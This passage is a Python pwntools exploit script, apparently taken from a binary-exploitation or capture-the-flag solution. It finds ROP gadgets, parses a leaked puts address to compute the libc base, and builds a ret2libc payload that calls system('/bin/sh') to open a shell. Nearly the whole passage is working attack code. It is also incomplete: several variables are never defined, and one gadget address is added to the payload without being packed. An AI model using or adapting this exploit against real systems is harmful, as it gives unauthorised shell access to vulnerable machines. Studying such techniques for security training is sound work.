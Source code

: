 ```python


### ELF and ROP findings


# take rops from elf, seach a pop rdi gateget to set params for the puts function
rop = ROP(e)
pop_rdi_gadget = (rop.find_gadget(['pop rdi', 'ret']))[0]
ret_gadget = (rop.find_gadget(['ret']))[0]
ret_gadget = p64(ret_gadget)

# automate to find the first puts call, main call, and the puts in got
PUTS_PLT = e.plt['puts']
PUTS_GOT = e.got['puts']
MAIN_PLT = e.symbols['main']


exit = p64(e.symbols['exit'])
log.info("Main start: " + hex(MAIN_PLT))
log.info("puts plt: " + hex(PUTS_PLT))
log.info("puts plt in got: " + hex(PUTS_GOT))

main_addr = p64(MAIN_PLT)
puts_addr = p64(PUTS_PLT)
puts_got = p64(PUTS_GOT)


### read leakes address

leak = target.recvline()
print("leak \n")
print(leak)


# remove zero bytes from the rdi gadget address
clean_rdi_gadget = pop_rdi_gadget.replace(b"\x00",b"")

# find the rdi gagdet call from the leaked stack
l = leak.find(clean_rdi_gadget) + 3 

# retrieve the puts adress from the leak and fit it to 8bytes
puts_libc = u64(leak[l:l+6].ljust(8,b"\x00"))
log.success("Puts addr from libc: " + hex(puts_libc))


# Calculate LIBC addresses for system(address_to_"/bin/sh")
libc.address = puts_libc - libc.symbols['puts']
log.info("libc base @ %s" % hex(libc.address))

# Find system call and /bin/sh in the libc file
BINSH = next(libc.search(b"/bin/sh")) #Verify with find /bin/sh
SYSTEM = libc.sym["system"]
EXIT = libc.sym["exit"]
log.info("bin/sh %s " % hex(BINSH))
log.info("system %s " % hex(SYSTEM))
system_call = p64(SYSTEM)
binsh_got = p64(BINSH)

#send the second payload provide a second ret_gadget to adjust the stack

payload = padding + pop_rdi_gadget + binsh_got + ret_gadget + system_call + exit
```
